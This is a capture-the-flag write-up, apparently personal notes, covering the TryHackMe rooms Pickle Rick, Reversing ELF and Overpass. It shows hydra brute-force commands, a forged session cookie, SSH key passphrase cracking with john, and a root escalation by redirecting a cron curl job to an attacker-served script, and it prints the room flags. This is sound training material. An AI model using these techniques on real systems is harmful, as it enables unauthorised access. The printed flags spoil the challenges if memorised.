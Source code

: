 # TryHackMe

## Pickle Rick

Starting with ``` nmap -A -T5 <MACHINE_IP>``` we find _ssh_ open on port 22 and a _http_ webserver on port (80), both were expected. Opening the page and viewing the source we find a username R1ckRul3s, tried ```ssh R1ckRul3s@<MACHINE_IP>``` which didn't work, so just save the username for later. Running _gobuster_ and _nikto_ we find three accessible directories _/robots.txt_, _/assets_ and _/login.php_. The second one had nothing useful, but the other two were a rather crucial find. I tried brute-forcing the login with _hydra_, but that got me nowhere, so after looking in the robots.txt file we get a random string that proved later to be the password.

On the page we find a console on the machine. _whoami_ tells us we are logged in as www-data. Since it's a webshell it doesn't actually save the state so we're gonna have to keep that in mind. using _ls -la_ we find our first flag in a "super secret" txt file. _cat_ and _more_ are disabled on the prompt, but we can use _less_. Using _less clue.txt_, we get and idea of where the second flag is. Navigating into _/home/rick_ we get it easily. No clue for the last flag, but it makes sense to check the root folder. _ls -la /_ tells us that we can't access the root folder, but _sudo -l_ tells us that we can run everything as sudo (definitely the worst security practice so far). So we get our last flag from the root folder with sudo.

## Reversing ELF

First 3 were easily solvable with just the strings command.

crackme4 can be solved with <code>ltrace</code> or using <code>gdb</code> 
```
1) info functions
2) breakpoint at strcmp
3) run test
4) show rax and rdx strings with x/s 
```

the rest of them can be solved by decompiling with <code>ghidra</code> and then looking at the main function to reverse.

## Overpass
``` bash
nmap -v <MACHINE_IP>
```
Shows SSH on port 22 and an webpage on port 80. After that:

``` bash
nmap -v --script=ssh-brute <MACHINE_IP>
```

Doesn't manage to brute-froce the credentials.

``` bash
nikto -host <MACHINE_IP>
```

![Capture](https://user-images.githubusercontent.com/52963102/128154609-d44f494b-691b-4f93-84ad-0676e53ca06f.PNG)

...and on <code><MACHINE_IP>/admin</code> we find a login page. After setting up Burp-Suite for TryHackMe and examining the source code of the webpage I end up with a POST request curl command
	
``` bash
curl -X POST -F "username=admin" -F "password=passwd" http:/<MACHINE_IP>/api/login
```
	
with a failed response of <code>Incorrect credentials</code>, so next up we used Hydra with the following command
	
``` bash
hydra -vV -l admin -P /root/Desktop/Tools/wordlists/rockyou.txt <MACHINE_IP> http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect credentials"	
```
Still doesn't help us even after using the names as usernames from the About Us page. So I end up looking at the <code>login.js</code> file and the <code>login()</code> function, I highlighted the important part

![Capture](https://user-images.githubusercontent.com/52963102/128165302-1c3da5e3-e644-4fbc-b37f-b885b2b9bef8.PNG)

After setting the cookie <code>SessionToken</code> we get a new page with an RSA private key. Save it in a file named <code>id_rsa</code> then get <code>ssh2john.py</code> with:
	
``` bash
wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py	
```
	
...and then run

``` bash
python3 ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash 
```

We get <code>id_rsa:james13</code>. From the text we know that this is an SSH key so we can try...
	
``` bash
ssh -i id_rsa james@<MACHINE_IP>
```
...and use <code>james13</code> as the passphrase. From there ```ls```  and we get the <code>user.txt</code> file.
	
<code>thm{65c1aaf000506e56996822c6281e6bf7}</code>

Next we need to somehow get into the <code>root</code> folder.
	
Skipping the LinPEAS part for now...
	
With ``` cat /etc/crontab ```  we can see that there is a suspicious curl command running. We can exploit it by changing the ``` overpass.thm ```  domain name with ``` vim /etc/hosts ```  to our own system and then create the same directory with a ``` buildscript.sh ``` file in it which has the lines ``` chmod 777 /root ``` and ``` chmod 777 /root/root.txt ```. (definitely not the best way of doing it)

<code>thm{7f336f8c359dbac18d54fdd64ea753bb}</code>
